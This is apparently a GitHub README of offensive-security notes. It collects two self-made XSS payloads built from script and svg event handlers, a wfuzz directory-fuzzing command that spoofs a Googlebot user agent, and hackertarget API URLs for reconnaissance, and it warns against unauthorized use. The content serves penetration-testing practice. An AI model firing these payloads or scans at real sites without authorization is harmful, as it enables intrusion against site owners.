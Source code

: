 <br>
<h1 align="center"> Offensive Security MISC Anotations and Payloads</h1> <br>

<br>
<br>


# xss
- Personally created XSS payloads <br>

<br>

## Danger zone! <br>
> Danger zone is the area which xss payloads can be OR will be harmfull to a web application <br>
> so, do no use them unless you're sure the web app will not be damaged! <br>

<br>

> Do not use these payloads in a random or unauthorized web site, I do not take any resposibility <br>
> to any person who decide to execute those on random places, you have been warned!

## document.write <br>

```html
;//<!----><SCRIPT>alert(1);</SCRIPT><svg onerror="alert(document.write(1337))">
```
<br>

## document.domain <br>

```html
;//<!----><SCRIPT>alert(1);</SCRIPT><svg onload="alert(document.domain)">
```

<br>

<hr>

<br>

# wFuzz
- wFuzz is a web application fuzzing tool <br>

<br>

##  Ultimate wFuzz command v1 <br>

```sh
sudo wfuzz --hc 404,400,302,301 -u https://site.com/FUZZ -w WORDLIST.txt -H "User-Agent: Googlebot-News" -t 50
```

<br>

<hr>

<br>

# APIs
- Apis for any kinds of target reconnaissance

<br>

## DNS Look up <br>

> https://api.hackertarget.com/dnslookup/?q=URL

<br>

## HTTP Headers <br>

> https://api.hackertarget.com/httpheaders/?q=URL

<br>

## Host Search <br>

> https://api.hackertarget.com/hostsearch/?q=URL
